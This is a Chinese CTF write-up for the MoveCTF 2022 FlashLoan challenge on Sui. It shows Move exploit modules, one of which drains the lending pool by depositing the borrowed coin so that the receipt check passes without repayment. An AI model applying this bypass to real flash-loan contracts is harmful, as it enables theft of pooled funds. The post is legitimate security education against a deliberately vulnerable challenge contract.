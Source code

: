 +++
title = 'MoveCTF2022 FlashLoan'
date = 2024-05-31T00:37:25Z
+++

原题目在https://github.com/movebit/movectf-4/blob/master/sources/module.move 考察闪电贷    
由于Move2024有些变化，我对源码做了微调https://github.com/m4sk93/movectf/tree/main/movectf2022/flashloan

## 环境搭建
参考[MoveCTF2022 Checkin](https://m4sk93.github.io/posts/movectf2022_1/)部署题目后，  
为了后续调用方便，在配置文件中添加package ID
```
[package]
name = "movectf2022_flashloan"
edition = "2024.beta" # edition = "legacy" to use legacy (pre-2024) Move
# license = ""           # e.g., "MIT", "GPL", "Apache 2.0"
# authors = ["..."]      # e.g., ["Joe Smith (joesmith@noemail.com)", "John Snow (johnsnow@noemail.com)"]
published-at = "0x2a61d471519b8e85a7730bebcfc3c5cace6ffffb2f5576d593821422d514adc2" # package id

[dependencies]
Sui = { git = "https://github.com/MystenLabs/sui.git", subdir = "crates/sui-framework/packages/sui-framework", rev = "framework/testnet" }

[addresses]
#movectf2022_flashloan = "0x0"
movectf2022_flashloan = "0x2a61d471519b8e85a7730bebcfc3c5cace6ffffb2f5576d593821422d514adc2" # package id

```

## 编写exp
为了调用题目，在配置文件中添加依赖
```
[dependencies]
Sui = { git = "https://github.com/MystenLabs/sui.git", subdir = "crates/sui-framework/packages/sui-framework", rev = "framework/testnet" }
movectf2022_flashloan= { local = "../movectf2022_flashloan/" }
```

初步分析getflag时会检查是否已经把池子抽干,
```
    // check whether you can get the flag
    public entry fun get_flag(self: &mut FlashLender, ctx: &mut TxContext) {
        if (balance::value(&self.to_lend) == 0) {
            event::emit(Flag { user: tx_context::sender(ctx), flag: true });
        }
    }
```
直接试试：
```
/// Module: exp
module exp::exp {

    use sui::tx_context::TxContext;
    use movectf2022_flashloan::flash::{Self, FlashLender};

    public entry fun exp1(lender: &mut FlashLender, ctx: &mut TxContext) {
        let (coin, receipt) = flash::loan(lender, 1000, ctx);

        flash::get_flag(lender, ctx);
    }
}
```
结果编译时就报错
```
error[E06001]: unused value without 'drop'
   ┌─ ./sources/exp.move:9:37
   │
 8 │         let (coin, receipt) = flash::loan(lender, 1000, ctx);
   │              ---- The local variable 'coin' still contains a value. The value does not have the 'drop' ability and must be consumed before the function returns
 9 │         flash::get_flag(lender, ctx);
   │                                     ^ Invalid return
   │
   ┌─ ./../movectf2022_flashloan/sources/movectf2022_flashloan.move:54:9
   │
54 │     ): (Coin<FLASH>, Receipt) {
   │         ----------- The type 'sui::coin::Coin<movectf2022_flashloan::flash::FLASH>' does not have the ability 'drop'
   │
   ┌─ /home/kali/.move/https___github_com_MystenLabs_sui_git_framework__testnet/crates/sui-framework/packages/sui-framework/sources/coin.move:35:19
   │
35 │     public struct Coin<phantom T> has key, store {
   │                   ---- To satisfy the constraint, the 'drop' ability would need to be added here

error[E06001]: unused value without 'drop'
   ┌─ ./sources/exp.move:9:37
   │
 8 │         let (coin, receipt) = flash::loan(lender, 1000, ctx);
   │                    ------- The local variable 'receipt' still contains a value. The value does not have the 'drop' ability and must be consumed before the function returns
 9 │         flash::get_flag(lender, ctx);
   │                                     ^ Invalid return
   │
   ┌─ ./../movectf2022_flashloan/sources/movectf2022_flashloan.move:24:19
   │
24 │     public struct Receipt {
   │                   ------- To satisfy the constraint, the 'drop' ability would need to be added here
   ·
54 │     ): (Coin<FLASH>, Receipt) {
   │                      ------- The type 'movectf2022_flashloan::flash::Receipt' does not have the ability 'drop'
```
所以必须对coin和receipt进行处理,不能让你贷完就跑路

注意看代码里的这个结构体：
```
    public struct Receipt {
        flash_lender_id: ID,
        amount: u64
    }
```
参考 [Hot Potato](https://examples.sui.io/patterns/hot-potato.html)
(Hot Potato is a name for a struct that has no abilities, hence it can only be packed and unpacked in its module. In this struct, you must call function B after function A in the case where function A returns a potato and function B consumes it.)
```
/// Module: exp
module exp::exp {

    use sui::tx_context::TxContext;
    use movectf2022_flashloan::flash::{Self, FlashLender};

    public entry fun exp1(lender: &mut FlashLender, ctx: &mut TxContext) {
        let (coin, receipt) = flash::loan(lender, 1000, ctx);

        flash::get_flag(lender, ctx);

        flash::repay(lender, coin);
        flash::check(lender, receipt);
    }
}
```
有借有还，这下成功了.

问题来了，可以不还吗？？？

还有一种利用方式
```
/// Module: exp
module exp::exp {

    use sui::tx_context::TxContext;
    use movectf2022_flashloan::flash::{Self, FlashLender};

    public entry fun exp1(lender: &mut FlashLender, ctx: &mut TxContext) {
        let (coin, receipt) = flash::loan(lender, 1000, ctx);

        flash::get_flag(lender, ctx);

        flash::repay(lender, coin);
        flash::check(lender, receipt);
    }

    public entry fun exp2(lender: &mut FlashLender, ctx: &mut TxContext) {
        let (coin, receipt) = flash::loan(lender, 1000, ctx);

        flash::deposit(lender, coin, ctx);
        flash::check(lender, receipt);
        flash::withdraw(lender, 1000, ctx);

        flash::get_flag(lender, ctx);
    }

}
```
问题在于：coin可以通过`deposit`消耗掉.通过`check`消耗`receipt`时不需要发送coin.而且check判断余额的方式也不对。

## 拓展(Todo)

使用Navi SDK试一试FlashLoad


## 参考资料

感谢大佬们无私分享
- [MoveCTF 2022 题解](https://lanford33.com/movectf-2022)
- [https://learnblockchain.cn/index.php/article/5025](https://learnblockchain.cn/index.php/article/5025)

